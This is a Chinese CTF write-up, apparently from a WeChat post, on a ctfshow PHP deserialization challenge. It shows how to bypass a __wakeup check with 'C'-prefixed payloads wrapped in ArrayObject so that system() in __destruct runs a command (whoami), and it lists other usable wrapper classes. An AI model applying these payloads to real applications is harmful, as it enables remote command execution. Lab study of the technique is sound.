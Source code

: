     ?><?phpclass ctfshow{  
        public function __wakeup(){        die("not allowed!");    }  
        public function __destruct(){        system($this->ctfshow);    }  
    } $a=new ctfshow();echo serialize($a);#O:7:"ctfshow":0:{}我们把O改成C传入C:7:”ctfshow”:0:{}可以看到网页显示bypass

我们把O改成C传入C:7:”ctfshow”:0:{}可以看到网页显示bypass  

![]()

但你只能这么传入，稍微改一点就没反应了，更别说向里面传值了，这里我们可以使用ArrayObject对正常的反序列化进行一次包装，让最后输出的payload以C开头(官方文档说：This
class allows objects to work as arrays.)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?php  
    class ctfshow {    public $ctfshow;  
        public function __wakeup(){        die("not allowed!");    }  
        public function __destruct(){        echo "OK";        system($this->ctfshow);    }       
    }$a=new ctfshow;$a->ctfshow="whoami";$arr=array("evil"=>$a);$oa=new ArrayObject($arr);$res=serialize($oa);echo $res;//unserialize($res)?>#C:11:"ArrayObject":77:{x:i:0;a:1:{s:4:"evil";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}};m:a:0:{}}

最后成功命令执行

![]()

但我本地尝试的时候发现这种包装方法对php版本有要求，我用7.3.4才可以输出以C开头的payload，换7.4或者8.0输出的就是O开头了，除了这个函数还有其他方法可以对payload进行包装，具体可以参考愚人杯3rd
[easy_php]：  

实现了unserialize接口的大概率是C打头，经过所有测试发现可以用的类为：

lArrayObject::unserialize

lArrayIterator::unserialize

lRecursiveArrayIterator::unserialize

lSplObjectStorage::unserialize  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

